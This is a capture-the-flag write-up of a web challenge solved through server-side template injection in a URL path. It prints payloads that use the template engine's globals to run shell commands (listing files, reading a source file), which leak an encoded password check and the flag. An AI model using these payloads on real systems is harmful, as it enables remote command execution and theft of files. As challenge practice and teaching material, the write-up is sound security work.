 ```yaml
---
layout: post
title: "Injection"
author: "shreyas-sriram"
tags: ['Web']
---
```


Our local pharmacy exposed admin login to the public, can you exploit it?

[http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/](http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/)

## Solution
- All attempts at SQLi or NoSQLi failed, however URL path values were being returned in the response
- A quick sanity check for SSTI confirms the vulnerability

```
http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/{{7*7}}

Oops! Page 49 doesn't exist :(
```

- Enumerate and find some interesting files using SSTI

```
http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/{{config.__class__.__init__.__globals__['os'].popen('ls -la').read()}}

http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/{{config.__class__.__init__.__globals__['os'].popen('cat lib/security.py').read()}}
```

- An encoded format of the flag is got

```
validate_login(username, password):
  if username != 'admin': return False

  valid_password = 'QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ'

  return base64.b64encode(password.encode('ascii')).decode('ascii')[::-1].lstrip('=') == valid_password
```

- Reverse the operations to obtain the flag

## Flag
```
dctf{4ll_us3r_1nput_1s_3v1l}
```
